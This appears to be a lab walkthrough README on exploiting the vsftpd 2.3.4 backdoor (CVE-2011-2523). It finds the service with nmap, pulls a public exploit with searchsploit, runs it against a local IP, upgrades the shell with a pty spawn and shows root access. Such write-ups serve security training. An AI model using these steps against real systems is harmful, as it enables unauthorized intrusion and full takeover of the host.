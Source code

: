 # FTP Exploit:

1. ***First, let's identify the FTP Service with Nmap***

   ![Screenshot](https://github.com/user-attachments/assets/e998c03f-c81a-49ca-bcc6-e394ceedfe5d)
   
   - As we see, the FTP version is 2.3.4.
   - Anonymous login is allowed! :)

   - Now, let's use SearchSploit to see if there is any vulnerability for this FTP version:
     ```bash
     searchsploit vsftpd 2.3.4
     ```
   - We found a backdoor command execution vulnerability.
   - Let's bring the file to our folder location (in this case, the Desktop):
     ```bash
     searchsploit -m unix/remote/49757.py
     ```

   ![image](https://github.com/user-attachments/assets/55cb771a-3e36-45cb-85ac-9d306a653bca)
   
   - Take a look at the Python file.

   -  **The python file here:** [Link](./49757.py)
   
   ![image](https://github.com/user-attachments/assets/f3e1b257-1cd0-4ae8-b9bb-df88c735dd7f)
   - We can see that the code will open a backdoor connection with the victim machine. There is a CVE for this bug:
     ```bash
     CVE: CVE-2011-2523
     ```
    
   - You can look it up and you will find it's a critical vulnerability.
   ![image](https://github.com/user-attachments/assets/69a4fb83-bfbd-4982-9e8e-4743188119c6)

3. ***Now let's exploit***

   - Let's give it a try and run the Python file with the machine IP:
     ```bash
     python2 49757.py 192.168.1.4
     ```
   - We will see that we get a reverse shell.
   - Let's make it prettier by running bash instead of shell:
     ```bash
     python -c "import pty; pty.spawn('/bin/bash')"
     ```
   - Now let's check our user with:
     ```bash
     whoami
     id
     ```
   - We will see that we are ROOT! :)
   ![image](https://github.com/user-attachments/assets/bc69af34-040d-477e-87f6-533112d78f14)


      ### HAPPY HUNTING! :D
